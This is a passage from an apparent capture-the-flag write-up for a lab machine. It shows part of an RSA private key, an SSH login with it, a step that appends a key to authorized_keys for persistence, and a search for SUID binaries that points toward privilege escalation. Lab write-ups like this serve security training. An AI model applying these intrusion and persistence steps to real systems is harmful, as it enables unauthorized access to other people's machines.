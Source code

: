 ```
I9Esc9FP8QLqR3jJOdijaN59oByGFiEE1QGnODeHRt2czK388XtH/FTqsjhH360R
+8ylF6696X9DMnUQ4NEvDRRLR7JKae8fcu5d/SRsenB+1ck2djs=
-----END RSA PRIVATE KEY-----
```

So we can login through SSH now:

```
$ chmod 600 id_rsa
$ ssh theseus@10.10.10.185 -i id_rsa
load pubkey "id_rsa": invalid format
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 5.3.0-42-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

29 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Your Hardware Enablement Stack (HWE) is supported until April 2023.
Last login: Thu Jul  2 08:19:49 2020 from 10.10.15.71
theseus@ubuntu:~$
```

Note: is you are denied it's because someone overwrote `authorized_keys` with
it's personal key. So just append theseus public key:

```
theseus@ubuntu:~$ cat .ssh/id_rsa.pub >> .ssh/authorized_keys
```

PS: it seems the private key I used was not part of the box but generated by
another player, anyway you'll have to add a key to `.ssh/authorized_keys`.

## System enumeration

Let's find binaries with SUID:

```
theseus@ubuntu:~$ find / -perm -u=s -type f 2>/dev/null
/usr/sbin/pppd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/arping
/usr/bin/vmware-user-suid-wrapper
...
/bin/umount
/bin/fusermount
/bin/sysinfo
/bin/mount
/bin/su
```
